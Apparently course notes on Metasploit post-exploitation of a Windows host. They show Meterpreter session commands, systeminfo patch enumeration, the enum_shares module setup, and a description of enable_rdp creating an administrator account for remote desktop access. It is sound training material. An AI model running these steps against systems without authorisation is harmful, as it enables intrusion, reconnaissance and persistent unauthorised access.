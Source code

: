 ```
meterpreter > migrate 896
meterpreter > background
run
```

But what we could do in order to identify this information is we could open the session.

We can open up a shell session, which will open up a command prompt, and we can get this information by saying `systeminfo`. This is a Windows native command. It provides you with a list of all installed patches on the target system.

So if that post exploitation module fails on you, you can always revert to manual search or manual enumeration. 

```
sessions 1
meterpreter > shell
C:\Windows\system32>systeminfo
C:\Windows\system32>^C # Terminate this channel.
meterpreter > background # Put our Meterpreter session in the background.
```

enum_shares module will allow us to enumerate any shares.

[Windows Post Gather Modules](https://www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/)

enum_shares

The enum_shares post module returns a listing of both configured and recently used shares on the compromised system.

枚举共享

enum_shares post 模块返回受感染系统上已配置和最近使用的共享列表。

The `print$` share is used to facilitate the sharing of printers. The sharing of resources on Windows is facilitated through SMB. 

```
search enum_shares
use post/windows/gather/enum_shares
show options
set SESSION 1
run
```

The ability to check whether RDP is enabled. And RDP is the remote desktop protocol, and that protocol is used to remotely access a Windows system. And we can get a graphical user interface instead of utilizing a terminal.

[Windows Manage Enable Remote Desktop](https://www.rapid7.com/db/modules/post/windows/manage/enable_rdp/)

This module enables the Remote Desktop Service (RDP). It provides the options to create an account and configure it to be a member of the Local Administrators and Remote Desktop Users group. It can also forward the target's port 3389/tcp.
